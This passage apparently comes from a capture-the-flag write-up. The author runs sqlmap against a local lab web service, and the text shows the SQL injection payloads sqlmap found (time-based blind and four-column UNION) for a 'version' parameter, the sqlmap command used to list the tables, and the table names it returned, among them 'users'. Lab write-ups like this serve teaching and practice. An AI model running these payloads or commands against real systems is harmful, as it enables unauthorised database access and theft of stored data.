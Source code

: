 ```ansi

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: version=1" OR 7721=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- ZzYl

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: version=1" UNION ALL SELECT NULL,NULL,NULL,CHAR(113,118,112,118,113)||CHAR(107,97,84,115,108,113,76,108,90,70,65,80,77,77,88,122,88,98,76,103,115,108,76,74,97,100,76,122,84,78,119,77,121,102,74,116,89,69,111,106)||CHAR(113,112,120,118,113)-- zLii
---
[18:13:52] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:13:52] [WARNING] on SQLite it is not possible to enumerate databases (use only '--tables')
[18:13:52] [INFO] fetched data logged to text files under '/home/nickvd/.local/share/sqlmap/output/localhost'

```

The datastore is SQLite, and the current endpoint is vulnerable to a `UNION` injection with 4 columns. Given it’s SQLite it doesn’t have a concept of databases, so I can immediately try to dump all tables.

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --tables --level 5 --risk 3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.7#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

<...snip...>
[18:18:22] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:18:22] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[6 tables]
+-----------------+
| answers         |
| info            |
| reports         |
| sqlite_sequence |
| users           |
| versions        |
+-----------------+

<...snip...?
```
